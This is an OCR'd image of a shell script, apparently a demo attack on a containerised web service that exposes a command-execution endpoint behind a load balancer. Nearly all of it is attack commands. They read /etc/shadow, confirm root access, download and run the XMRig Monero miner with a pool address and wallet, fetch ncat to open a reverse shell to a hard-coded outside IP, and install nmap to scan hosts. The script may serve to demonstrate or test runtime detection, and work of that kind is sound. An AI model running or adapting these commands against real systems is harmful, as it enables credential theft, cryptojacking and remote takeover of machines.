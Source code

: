 # Read the file /etc/shadow
curl $LOAD_BALANCER_URL:$PORT/etc/shadow
# Get a list of files
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ls -la'

# Get my user (we are root)
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=uname -a'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=whoami'

# Istall cryptominer
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget -O file.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=tar -xvf file.tar.gz
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=sleep 1 && nohup ./xmrig-6.16.4/xmrig --donate-level 100 -o xmr-us-east1.nanopool.org:14433 -k -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero'

# Check that cryptominer is installed
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ps -aux'

# Open reverse shell
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=chmod +x ncat'
sleep 1 && nohup curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=./ncat 34.77.63.85 34444 -e /bin/bash' &> /dev/null & nc -lnvp 34444



# Install nmap and scan hostts
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=apt-get update; apt-get -y install nmap'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=nmap -v scanme.nmap.org'






